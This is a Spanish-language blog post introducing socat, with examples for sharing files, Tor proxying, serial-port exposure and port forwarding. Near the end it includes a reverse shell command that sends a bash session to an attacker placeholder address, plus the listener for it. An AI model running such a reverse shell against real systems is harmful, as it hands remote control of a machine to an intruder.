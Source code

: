 ```yaml
---
title: socat - Multipurpose relay
date: 2025-07-15 00:00:00 +0200
categories: [software, herramientas]
tags: [herramientas, socat]     # TAG names should always be lowercase
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/1/15/Cat_August_2010-4.jpg/1920px-Cat_August_2010-4.jpg
    alt: 
---
```

# Socat
[](http://www.dest-unreach.org/socat/)

Socat actúa como un relay (retransmisor) o intermediario entre dos flujos de datos, que pueden ser:
- sockets TCP o UDP
- archivos
- pseudoterminales
- dispositivos seriales
- procesos, etc.

Es como un fontanero, capaz de conectar todo tipo de cosas entre sí. 
La página oficial del proyecto es esta [http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)

## Ejemplos uso

Compartir un archivo:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork FILE:/ruta/al/archivo.txt
``` 

Conectar una aplicación que no soporta proxies a través de TOR:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork SOCKS5:127.0.0.1:irc.hidden.onion:6667,socksport=9050
```

Exponer un puerto serie (USB) por red

``` shell
socat TCP-LISTEN:5000,reuseaddr,fork FILE:/dev/ttyUSB0,raw,echo=0
```

Simular una conexión
``` shell
socat TCP:192.168.1.210:21 -
```

Redireccionar un puerto 

``` shell
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80,sourceport=12345
```

Reverse Shell (escucha)

``` shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:<IP_DEL_ATACANTE>:4444
```

Reverse Shell (cliente/atacante)

``` shell
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444,reuseaddr
``` 

Parece que Socat podría convertirse en el sucesor legítimo de Netcat llamado "la navaja suiza de los hackers", pues Socat es más complejo y 
avanzado y tiene más funcionalidades.  

Socat puede ser una buena herramienta para resolver problemas de red y una buena solución "in situ" para resolver tareas que de otra manera requerían la instación de software adicional, servidores o middelware, etc. 


